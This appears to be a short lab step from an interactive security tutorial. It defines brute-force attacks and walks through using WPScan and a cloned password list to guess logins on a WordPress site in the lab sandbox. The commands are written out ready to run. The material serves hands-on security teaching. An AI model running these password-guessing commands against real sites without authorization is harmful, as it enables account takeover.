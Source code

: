 ## **3. Introduction Brute-Force Attack**
---

## **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
### Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
## Step 1:
### Download the WPscan using the command:

`gem install wpscan`{{execute}}
## Step 2:
### Clone the crack.txt file which includes a list of password from Github using the command:
`git clone https://github.com/tonywong586/CrackList.git`{{execute}}
<br></br>
access the CrackList file using the following command:

`cd CrackList`{{execute}}
<br></br>
## Step 4:
### Use the following command to enforce the Brute-force attack
`
wpscan --url https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com --passwords crack.txt{{execute}}
`{{execute}}

